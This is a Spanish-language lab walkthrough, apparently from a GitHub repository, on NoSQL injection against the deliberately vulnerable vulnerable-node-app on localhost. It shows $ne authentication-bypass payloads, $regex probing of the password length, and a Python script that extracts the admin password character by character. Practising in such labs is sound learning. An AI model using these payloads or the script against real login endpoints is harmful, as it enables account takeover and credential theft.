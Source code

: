 ## Laboratorio NoSQLI

---
tags:
  - laboratoriopractico
  - nosql
  - nosqli
  - inyeccionnosql
---
----
# Preparando el laboratorio

Primero vamos a instalar el siguiente laboratorio del siguiente [repositorio](https://github.com/Charlie-belmer/vulnerable-node-app):

```bash
git clone https://github.com/Charlie-belmer/vulnerable-node-app
```

```bash
cd vulnerable-node-app
```

Ahora vamos a levantar el docker:

```bash
docker-compose up -d
```

Esperamos hasta que termine de hacer pull de las imagenes y armar el contenedor, que va ha estar en el puerto 4000

Cuando haya terminado ahora vamos a dirigirno al navegador para ver que efectivamente este todo cargado:

![Pasted image 20231008223300](https://github.com/LuisRamos98/nosqli.py/assets/55118677/a2c80c72-ef8a-4d62-8499-6cf7642ecc2d)


Ahora que vemos que todo está correcto procedemos hacer click en Populate/Reset DB:

![Pasted image 20231008222920](https://github.com/LuisRamos98/nosqli.py/assets/55118677/265b1a23-53d3-46c9-93bd-c80f9099f737)


![Pasted image 20231008223032](https://github.com/LuisRamos98/nosqli.py/assets/55118677/b65ad7e8-16d6-482e-9474-66776cdd4dd9)


Ahora vamos a login, abrimos el burpsuite y capturamos la petición:

```bash
burpsuite &>/dev/null & disown
```

![Pasted image 20231008223300](https://github.com/LuisRamos98/nosqli.py/assets/55118677/59f03848-8978-4664-9bf0-acd47acfd1db)


![Pasted image 20231008223325](https://github.com/LuisRamos98/nosqli.py/assets/55118677/ee776512-7d01-4421-8358-69aa5d0d55ef)


Ahora haremos ctrl+r para enviarlo al repeater e ir probando las inyecciones nosql.

![Pasted image 20231008223556](https://github.com/LuisRamos98/nosqli.py/assets/55118677/30a758d3-28f2-45dc-b70a-a151030b7be6)


Ahí podemos ver que en el header admite json, la peticion por post es json, y podemos probar dandole click a send viendo la respuesta en la otra ventana, vamos a utilizar lo siguiente para poder entrar como admin:

Vamos a poner en "password": {"$ne":"admin"}, aqui decimos que la contraseña no es igual a admin cual no es la contraseña por ende es verdadero y veremos lo que pasa:

![[Pasted image 20231008223910.png]]

Tambien se puede hacer en el usuario en caso que no lo sepamos, ahora tambien en "usuario":{"$ne":"guest"}, que es un usuario que existe para ver con que usuario nos logea, en este si no tienes la suficiente información vas a logearte en cualquier usuario.

![[Pasted image 20231009070422.png]]

Ahora vamos a ver un ejemplo para poder hacer un scripts en python para poder obtener la contraseña:

Utilizando regex podemos obtener cuanto characteres tienen para poder poner un limite para ello usamos {"$regex":".{30}"} y vamos cambiando el valor hasta que no obtengamos errores:

![Pasted image 20231009070853](https://github.com/LuisRamos98/nosqli.py/assets/55118677/d4271a81-f65d-48d9-8c46-c0362b73c08b)


Vemos que la contraseña no tiene 30 caracteres por lo que vamos a seguir probando hasta encontrar el limite:

![Pasted image 20231009070953](https://github.com/LuisRamos98/nosqli.py/assets/55118677/ac328760-9c2f-4da7-8dbb-2bd27747d81b)


Ahora sabremos que tenemos que limitar para encontrar la password de admin a 24, lo mismo podremos hacer con usuario y van probando, ahora vamos utilizar {"$regex":"^a"} el de aquí no es necesario ver cuando no salga error pero nos servirá para saber como va a funcionar nuestro script, va a ir caracter por  caracter hasta que salga el mensaje "Logged in as user", con ello sabemos que todo ok, y asi va a ir sumando caracteres hasta obtener la contraseña que sabemos que tiene 24 caracteres.

![Pasted image 20231009071957](https://github.com/LuisRamos98/nosqli.py/assets/55118677/f043a50e-d731-48a7-b775-f9c21f8be453)


![Pasted image 20231009071838](https://github.com/LuisRamos98/nosqli.py/assets/55118677/78be60f0-a7a8-4fa1-aa5b-7e72b1103ea8)


Ahora haremos el siguiente script y vemos el resultado:

```bash
nvim nosqli.py
```

```python 
#!/usr/bin/python3

from pwn import *
import time, signal, sys, string, requests


def def_handler(sig,frame):
    print("\n\n[+] Saliendo...\n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)


login_url = 'http://localhost:4000/user/login'
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits

def makeNoSQLI():
    
    password = ''
    
    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    sleep(2)

    p2 = log.progress("Password")

    for i in range(0,24):
        for character in characters:
            post_data = '{"username":"admin","password":{"$regex":"^%s%s"}}' % (password,character)
            headers = {'Content-Type': 'application/json'}
            
            p1.status(post_data)

            r = requests.post(login_url, headers=headers, data=post_data)

            if "Logged in as user" in r.text:
                password+=character
                p2.status(password)
                break

if __name__ == "__main__":

    makeNoSQLI()
```

![Pasted image 20231009072322](https://github.com/LuisRamos98/nosqli.py/assets/55118677/26e4d657-df87-4ba5-9b9f-96882491c271)


Ya tenemos la password de admin vamos a comprobar si es cierto:

![Pasted image 20231009072535](https://github.com/LuisRamos98/nosqli.py/assets/55118677/b3d8f1a0-11d1-4682-8dd5-52f4485c4586)


Fin:)

